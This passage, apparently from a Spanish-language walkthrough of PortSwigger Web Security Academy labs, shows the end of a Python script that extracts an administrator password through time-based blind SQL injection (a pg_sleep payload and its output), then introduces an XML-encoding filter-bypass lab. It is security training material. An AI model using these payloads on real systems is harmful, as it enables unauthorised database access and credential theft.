 ```bash
            if time_end - time_start > 1.5:
                password += character
                p2.status(password)
                break
if __name__ == '__main__':
    makeRequest()

```

```bash
❯ python3 portswigger_b.py
[▇] Fuerza Bruta: 1lFKg9knAZv6c4Rh'||(select case when substring(password,20,1)='6' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -
[.......\] Password: m2at1sufe07hhx5v5vv6
```

## SQL injection with filter bypass via XML encoding

- <https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding>.

- Ahora nos dicen que hay una vulnerabilidad en el **stock check feature.**. 

![](/assets/portswigger/sqli/web68.png)
